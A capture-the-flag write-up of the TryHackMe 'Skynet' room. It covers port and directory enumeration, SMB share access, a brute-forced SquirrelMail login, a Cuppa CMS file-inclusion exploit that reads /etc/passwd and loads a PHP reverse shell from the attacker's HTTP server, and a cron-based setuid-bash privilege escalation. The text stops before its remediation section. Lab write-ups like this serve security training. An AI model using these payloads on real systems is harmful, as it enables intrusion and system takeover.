<h2 class="menu-header" id="main">
<a href="https://github.com/Mithlonde/Mithlonde">Root</a>&#xA0;&#xA0;&#xA0;
<a href="https://github.com/Mithlonde/Mithlonde/blob/main/blog/index.md">Blog</a>&#xA0;&#xA0;&#xA0;
<a href="https://github.com/Mithlonde/Mithlonde/blob/main/projects/index.md">Projects</a>&#xA0;&#xA0;&#xA0;
<a href="https://github.com/Mithlonde/Mithlonde/blob/main/all-writeups.md">Writeups</a>&#xA0;&#xA0;&#xA0;
<a href="https://github.com/Mithlonde/Mithlonde/blob/main/thm/2023-02-15-skynet.md">~/Skynet</a>&#xA0;&#xA0;&#xA0;
</h2>

# 👾 Mithlonde
└─$ cat writeups/thm/skynet.md



*https://tryhackme.com/room/skynet*<br />
`Linux` `SquirrelMail` `Samba` `CuppaCMS` `RemoteFileInclusion` `CronJobs`

<br />

## TryHackMe CTF Writeup: Skynet
- [Summary](#summary)
- [1. Enumeration](#1-enumeration)
  - [1.1 Nmap](#11-nmap)
  - [1.2 Web Discovery (Port 80/tcp)](#12-web-discovery-port-80-tcp)
  - [1.3 SMB (Port 139/445/tcp)](#13-smb--port-139-445-tcp)
- [2. Exploitation](#2-exploitation) 
  - [2.1 Burp Intruder](#21-burp-intruder)
  - [2.2 Cuppa CMS](#22-cuppa-cms)
  - [2.3 Initial Foothold](#23-initial-foothold)
- [3. Post Exploitation](#3-post-exploitation)
  - [3.1 User Flag](#31-user-flag)
  - [3.2 Privilege Escalation](#32-privilege-escalation)
  - [3.3 Attack Vector](#33-attack-vector)
  - [3.4 Root Flag](#34-root-flag)
- [4. Remediation](#4-remediation)
  - [4.1 Vulnerabilities found](#41-vulnerabilities-found)
  - [4.2 Recommendations](#42-recommendations)
- [5. Conclusion](#5-conclusion)
- [References](#references)

# Walkthrough

### Summary:

The Skynet room on TryHackMe is a beginner-friendly room that teaches basic penetration testing concepts by guiding users through a series of challenges focused on a fictitious company's insecure web application.

In this room, users are tasked with exploiting vulnerabilities in a Linux-based web server running outdated software versions, weak authentication mechanisms, and misconfigured access controls.

The goal is to demonstrate how a hacker can leverage these vulnerabilities to gain unauthorized access and exfiltrate sensitive data (capture the flags). Throughout the room, users will learn various attack techniques such as brute-forcing, accessing samba shares, and privilege escalation.

## 1. Enumeration 

### 1.1 Nmap:<a name="11-nmap"></a>

We start with the reconnaissance by running an initial Nmap scan.

The below scripts uses **grep** and **cut** commands to filter and extract the open ports from the output file, sorts them, and stores them in a variable called ports.

```
sudo nmap -p- --min-rate 10000 $IP -oN scans/all-ports.nmap && ports=$(cat scans/all-ports.nmap | grep "open" | grep -v "filtered" | cut -d "/" -f 1 | sort -u | xargs | tr ' ' ',')
```

The second script is used to scan the open ports identified in the first script for any services running on them. It uses the Nmap command with the options `-p$ports` to scan the open ports stored in the variable.

```
sudo nmap -p$ports -sCV $IP -oN scans/services.nmap
```

-   **-p-**: scan all ports
-   **--min-rate**: set high scanning rate
-   **-sC**: run default nmap scripts
-   **-sV**: detect service version
-   **-oN**: write output to nmap file

**Summary of the Nmap scan results**:

```
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 992331bbb1e943b756944cb9e82146c5 (RSA)
|   256 57c07502712d193183dbe4fe679668cf (ECDSA)
|_  256 46fa4efc10a54f5757d06d54f6c34dfe (ED25519)
80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Skynet
110/tcp open  pop3        Dovecot pop3d
|_pop3-capabilities: PIPELINING TOP CAPA UIDL AUTH-RESP-CODE SASL RESP-CODES
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
143/tcp open  imap        Dovecot imapd
|_imap-capabilities: LITERAL+ LOGINDISABLEDA0001 more SASL-IR Pre-login have post-login IDLE OK capabilities ENABLE ID LOGIN-REFERRALS listed IMAP4rev1
445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: SKYNET; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 2h13m14s, deviation: 3h27m50s, median: 13m14s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_nbstat: NetBIOS name: SKYNET, NetBIOS user: <unknown>, NetBIOS MAC: 000000000000 (Xerox)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: skynet
|   NetBIOS computer name: SKYNET\x00
|   Domain name: \x00
|   FQDN: skynet
|_  System time: 2023-02-13T13:21:42-06:00
| smb2-time: 
|   date: 2023-02-13T19:21:42
|_  start_date: N/A
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
```

We get back the following result showing that **6** ports are open and the host is most likely running Ubuntu:

-   **Port 22**: OpenSSH 7.2p2
-   **Port 80**: Apache httpd 2.4.18, title: Skynet
-   **Port 110**: Dovecot pop3d
-   **Port 139**: Netbios-ssn Samba shares
-   **Port 143**: Dovecot imapd
-   **Port 445**: Netbios-ssn Samba shares, Host: SKYNET

The results from the script also give us some extra info, like the **SMB security mode**. This means we could possibly try to access the SMB shares. However, we should start by investigating the web server running on port 80 first.

### 1.2 Web Discovery (Port 80/tcp):<a name="12-web-discovery-port-80-tcp"></a>

After discovering the open port 80, we proceeded with web server discovery. Accessing the server through a web browser revealed a Skynet search engine. However, the search results provided little information about the target, making it difficult to gather any actionable intelligence.



>**Fun theory**: There is a theory that 'The Terminator' and 'The Matrix' share the same universe, and that 'The Terminator' franchise eventually leads to the enslavement of humanity in 'The Matrix,' and Neo's story takes place far in the future after Skynet has taken over the planet, thus creating 'The Matrix.'
>
>This theory is based on several supposed pieces of evidence, including the claim that both franchises were plagiarized from the same manuscript by Sophia Stewart. However, the theory has not been confirmed, and many of the supposed connections between the two franchises are a bit of a stretch, but very interesting to read.

Nonetheless, we made note of the presence of the search engine and moved on to directory fuzzing to find other potential attack vectors.

We decided to use FFUF to help us enumerate any hidden directories on the web server.

```
ffuf -u http://$IP/FUZZ -r -c -ic -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```

-   **-u**: specify the target URL to scan
-   **FUZZ**: specify subdirectory to fuzz
-   **-w**: use the specified wordlist to fuzz the directory
-   **-r**: follow redirects (default: false)
-   **-c**: colorize output
-   **-ic**: ignore wordlist '#' comments



After running FFUF, we stumbled upon a SquirrelMail login portal. SquirrelMail is a webmail platform used to manage emails via a web browser.





Upon further inspection, we found that the portal was running version 1.4.23. Unfortunately, we didn't have any credentials to access it, but we made a note of it for later investigation. As per `searchsploit`, there might be some possible vulnerabilities for this version of SquirrelMail. Nevertheless, to avoid rabbit holes and complete our initial recon, we decided to enumerate other open ports found first to search for other possible attack vectors.

### 1.3 SMB (Port 139/445/tcp):<a name="13-smb--port-139-445-tcp"></a>

We then tried to use **smbclient** to identify any Samba shares on the host by running the command `smbclient -L //10.10.10.10 -N`:

-   **-L**: to list host services available
-   **FUZZ**: forces the tool to not ask for a password



As per the above we can see that an anonymous share was available, alongside 3 other shares named print$, **milesdyson** and the hidden IPC$ administrative share. Smbclient also reconnected with SMB1 to get the workgroup listing and found that the server as well as WORKGROUP names were indeed SKYNET (previously noted with the nmap scan).

Further inspection of the anonymous share was done by recursively downloading it with `smbget -R smb://$IP/anonymous`. We mounted the share and located some interesting files that we could use as a password wordlist for brute-forcing. One of these files, **attention.txt**, contained the name "Miles Dyson."





---
## 2. Exploitation

With that in mind, we can use the passwords we found earlier (**log1.txt**) and try to brute force our way into SquirrelMail. 

### 2.1 Burp Intruder:<a name="21-burp-intruder"></a>

We will use **Burp Suite** to **intercept** the POST request while manually attempting logging in first, and send the intercepted request to Burp **Intruder**.

Once we have the request, we can insert a new payload marker where the password should go, in this case "secretkey". We can then configure Burp Intruder to load the wordlist we found earlier as a payload and set it to brute force the login.



Upon success, a 302 response will indicate that the login process was successful, although the response will also redirect to another page. 



With access to SquirrelMail, we found a **password reset email** for the Samba service: 





In addition, we stumbled upon some emails from a user named **serenakogan@skynet** and tried to see if decrypting the binaries would yield anything of interest.



Unfortunately, these emails contained binary files that led us down a rabbit hole.


### 2.2 Cuppa CMS:<a name="22-cuppa-cms"></a>

We will continue our investigation and explore the Samba server again since we now have Miles Dyson's password, and recursively downloaded the complete Miles Dyson's Samba share:

```
smbget -R smb://10.10.232.150/milesdyson -U milesdyson
```

Here, we found the complete Skynet search database that had previously eluded us, along with an **important.txt** file. The latter provided us with a URL subdirectory for a certain CMS, which we had not discovered through our earlier fuzzing attempts.





Using this URL, we were able to access Miles Dyson's personal page.



From there, we further fuzzed the website with FFUF and discovered an additional /administrator subdirectory. This in turn led us to a Cuppa CMS login portal.





### 2.3 Initial Foothold:<a name="23-initial-foothold"></a>

After some searching for exploits, we came across a vulnerability in the Cuppa CMS that led to full server compromise. The exploit in question was the **Local/Remote File Inclusion** vulnerability of the '/alertConfigField.php' in Cuppa CMS, as described on https://www.exploit-db.com/exploits/25971.

```
#####################################################
DESCRIPTION
#####################################################

An attacker might include local or remote PHP files or read non-PHP files with this vulnerability. 
User tainted data is used when creating the file name that will be included into the current file. 
PHP code in this file will be evaluated, non-PHP code will be embedded to the output. 
This vulnerability can lead to full server compromise.

http://target/cuppa/alerts/alertConfigField.php?urlConfig=[FI]

#####################################################
EXPLOIT
#####################################################

http://target/cuppa/alerts/alertConfigField.php?urlConfig=http://www.shell.com/shell.txt?
http://target/cuppa/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd
```

We were able to successfully exploit this vulnerability by accessing the following URL and read sensitive information from the `/etc/passwd` file stored on the underlying Ubuntu system via File Inclusion:

```
http://10.10.232.150/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd
```



With this access confirmed, we can then successfully exploit the same vulnerability, yet this time to gain a reverse shell by editing the php-reverse-shell.php (renamed it to shell.php) to connect back to our own TryHackMe tun0 IP address (OpenVPN interface) and specify a port to connect through.


##### Source: https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php.

We started a Python HTTP server, set up a netcat listener, and then used the curl command with the complete shell URL to gain a reverse shell:

```
http://10.10.232.150/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://$IP/shell.php?
```

The above URL uses the urlConfig parameter to include a remote PHP file hosted on our Python HTTP server (`http://$IP/shell.php`), which in this case is the php-reverse-shell.php. This allows the us to execute arbitrary code on the underlying Ubuntu server and gain a reverse shell, effectively taking control of the machine.

---
## 3. Post Exploitation

Now that we have an initial shell on this machine as the `www-data` user, we can further enumerate the machine and escalate our privileges to root.

>The www-data user is a default user on Unix and Linux systems that is created automatically when a web server is installed. This user is used by web servers to execute and manage web applications and processes, and is typically assigned to own web files and directories.
>It is important to properly secure and restrict access to `www-data` on a web server.

### 3.1 User Flag:<a name="31-user-flag"></a>



Once I gained access, I used the command `dir "user.txt" /s` to search for the user flag. The `/` argument searches from the top-level or root directory of the hard drive, and the `/s` argument is used to search all sub directories, making it a quick and efficient method for finding the flag.

### 3.2 Privilege Escalation:<a name="32-privilege-escalation"></a>

After conducting further enumeration and viewing the contents of the system-wide contabs with the `cat /etc/crontab` command, we discovered that there is a backup Bash script `/home/milesdyson/backups/backup.sh` that is being executed as root. 

Also, note the (*) asterisk all across the board on these, meaning these root tasks are happening every minute on this Ubuntu machine.

The script is also using the (*) asterisk as a wildcard as part of its argument for the tar command. This symbol tells the system to include all files and directories in the current directory in the backup file.

So, when the script runs, it collects everything in the `/var/www/html` directory and compresses it into a backup file called backup.tgz that is stored in the `/home/milesdyson/backups` directory.



We also checked the permissions of the backup script and found that it has read, write, and execute permissions for the owner (root), read, and execute permissions for the group, and read and execute permissions for `www-data`:



Overall, by exploiting the backup script that runs every minute as root, we now have an attack vector and can escalate our privileges to gain full access to the system

>**For more read**: [swisskyrepo github: scheduled tasks](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md#scheduled-tasks).

##### **Extra**: [systemd timers](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md#systemd-timers) are similar and exploitable on some machines.

### 3.3 Attack Vector:<a name="33-attack-vector"></a>

So in order to gain elevated privileges on the targeted Ubuntu machine, the following script needs to be created.

```
echo 'cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash' > /var/www/html/shell.sh
```

